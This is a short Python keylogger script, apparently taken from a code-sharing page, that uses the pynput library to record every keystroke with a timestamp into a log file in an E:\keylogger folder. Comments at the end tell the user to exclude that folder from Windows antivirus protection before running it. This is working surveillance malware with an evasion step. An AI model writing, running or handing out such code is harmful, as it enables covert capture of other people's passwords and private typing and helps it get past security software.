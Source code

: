 #install pynput py using pip
#pip3 install pynput

import pynput

from pynput.keyboard import Key, Listener

import logging

log_dir = "E:\keylogger"

logging.basicConfig(filename = (log_dir + r"/keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key): logging.info(str(key))

with Listener(on_press=on_press) as listener:listener.join()

#make this folder exclusive to the antivirus software 
#goto settings > virus&threat protection > add exclusive
#then execute the python script using any python platform.
